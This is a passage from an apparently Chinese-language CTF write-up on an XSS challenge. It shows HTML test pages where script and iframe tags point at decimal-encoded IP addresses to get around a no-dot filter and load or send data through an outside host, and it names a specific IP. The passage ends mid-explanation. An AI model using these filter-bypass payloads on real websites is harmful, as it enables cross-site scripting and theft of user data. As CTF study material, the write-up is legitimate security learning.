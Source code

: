 

测试了一波，发现

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <script src=\\1759553882

</p>
</body>
```

确实可以往外发数据

![script](http://momomoxiaoxi.com/img/post/0ctf/script.png)

因为我们没有.号，所以也不能引用类似104.224.169.90/a.js这种界面

然后，就考虑index.html这种特性。我们引用一个104.224.169.90的页面，它会自动补全到达index.html(这种补全和服务器的相关设置相关，你们懂得)

那么，我们现在就能往外引用数据了！

但是，后来测试发现

```Js
<script src=\\2131121
```

这种格式的引用，浏览器只是做了一个get请求，但是因为没有右标签？？（具体原因没深入研究），它没有对里面的js进行解析执行。

然后，又测试了几个其他的标签，发现iframe真是一个神奇的标签。

我们可以通过

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\1759553882

</p>
</body>
```
